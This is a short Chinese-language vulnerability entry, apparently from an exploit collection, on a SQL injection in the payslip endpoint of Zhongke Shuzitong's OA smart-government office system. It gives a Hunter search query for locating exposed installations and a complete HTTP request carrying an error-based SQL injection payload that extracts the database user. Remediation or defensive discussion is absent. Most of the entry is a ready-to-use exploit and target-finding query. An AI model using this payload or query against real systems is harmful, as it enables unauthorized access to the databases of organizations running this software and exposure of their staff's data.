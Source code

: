## 数字通OA-智慧政务接口payslip存在SQL注入漏洞

中科数字通（北京）科技有限公司全新架构的智慧办公系统，由9大类、50多个主要功能模块构成。旨在为组织单位内部提供全新一代智慧型协同办公系统，数字通指尖云平台-智慧政务存在SQL注入漏洞，可通过SQL注入可获取敏感信息。

## hunter

```yaml
app.name="中科数字通 "
```

## poc

```yaml
GET /payslip/search/index/userid/time/time?PayslipUser[user_id]=(SELECT 4050 FROM(SELECT COUNT(*),CONCAT((mid((ifnull(cast(current_user() as nchar),0x20)),1,54)),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: GOASESSID=i589f58naalabocmbidup7edl3
Upgrade-Insecure-Requests: 1
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407111952197.png)